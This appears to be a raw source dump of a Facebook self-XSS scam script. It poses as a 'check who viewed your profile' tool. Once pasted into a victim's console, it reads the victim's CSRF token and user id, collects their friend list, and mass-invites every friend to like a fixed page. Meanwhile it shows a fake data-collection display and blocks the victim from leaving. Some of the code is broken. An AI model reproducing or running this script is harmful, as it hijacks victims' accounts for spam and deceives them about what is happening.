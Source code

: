 LTE
===

var Title='&lt;span style="font-size:x-large;">&lt;b>&lt;span style="color: red;">CHECK WHO PEEP YOUR PROFILE&lt;/span>&lt;/b>&lt;/span>&lt;br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=156964314481059&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited to like the page " + page_name + ".";suc++}Descriptions += "&lt;/div>";var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>&lt;br/>";if (i > 0) {display += "Detected &lt;b>" +arr.length + "&lt;/b> People Ever View Your Profile&lt;br/>";display += "&lt;b>" + suc + "&lt;/b> dari &lt;b>" +arr.length + "&lt;/b> user be data collection&lt;br/>";display += " (&lt;b>" + i + "&lt;/b> User Left..)&lt;br/>&lt;br/>";display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b>REPORT ARE MADE&lt;/b>&lt;br/>&lt;/span>&lt;/span>'; display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b>Please Wait Until The Process is Complete&lt;/b>&lt;/span>&lt;/span>';display += "&lt;/div>";display += "&lt;/div>";window[tag + "_close"] = true} else {display += '&lt;span style="color: lime;">&lt;span style="font-size: large;">&lt;b>Data Collection Completed&lt;/b>&lt;/span>&lt;/span>';display += "&lt;div>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Open Report&lt;/span>&lt;br/>";display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";display += "&lt;/div>"; window[tag + "_close"] = false}display += "&lt;/div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e &amp;&amp; b) {e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&amp;" : "?";var k = null;"POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText &amp;&amp; (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[
]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);c &amp;&amp; c(b)} else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Process Data Collection is running, Please Wait !!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i &lt; x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + Title + "&lt;/div>";display += arr.length + " User Detected";display += "&lt;/div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])}); var parent=document.getElementsByTagName("html")[0];

